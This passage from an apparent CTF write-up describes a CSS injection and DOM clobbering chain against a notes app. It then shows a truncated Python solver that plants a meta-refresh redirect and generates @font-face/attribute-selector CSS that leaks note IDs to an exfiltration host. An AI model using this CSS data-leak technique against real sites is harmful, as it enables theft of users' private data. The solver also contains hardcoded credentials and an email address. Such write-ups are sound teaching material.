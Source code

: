 
So in our payload will be
CSS Payload + Dom clobbering + `<script x=”`

### CHAIN THE EXPLOIT
Register as user -> create css injection + redirection -> submit into admin -> Profit

### SOLVER
```py
from flask import Flask, Response, make_response, request
import requests
import threading
current_note = ""
known_prefix = "/notes/view/"
app = Flask(__name__)
import string
import requests
HOST = "http://52.77.234.0:50002/"
# HOST = "http://localhost:50002/"
EXFIL_URL = "http://HOST:8000/"


req = requests.Session()
username = "bengsky13"
password = "haha123@A"
email = "bengskysec@gmail.com"
req.post(HOST+"/auth/register", data={
   "username":username,
   "password":password,
   "email":email,
   "confirm_password":password
})
req.post(HOST+"/auth/login", data={
   "username":username,
   "password":password,
   "email":email,
   "confirm_password":password
})
##Create redirection
redirect = req.post(HOST+"/notes/create", data={
   "title":"1",
   "content":f"<meta http-equiv=\"refresh\" content=\"0;url={EXFIL_URL}\">"
}, allow_redirects=False).headers.get('Location').split("/")[-1]
print("Redirect id", redirect)
charset = "01234567890abcdef"
def generate_css_payload(prefix):
   css = ""
   for c1 in charset:
       for c2 in charset:
           attempt = prefix + c1 + c2
           font_name = f"LeakFont_{attempt}"
           font_url = f'{EXFIL_URL}leak?id={attempt}'
           selector = f'a[href^="{attempt}"]'


           # @font-face definition
           css += f'@font-face {{\n'
           css += f'  font-family: "{font_name}";\n'
           css += f'  src: url("{font_url}") format("woff2");\n'
           css += f'}}\n'


           # Apply font-family to matched elements
           css += f'{selector} {{ font-family: "{font_name}" !important; }}\n\n'
```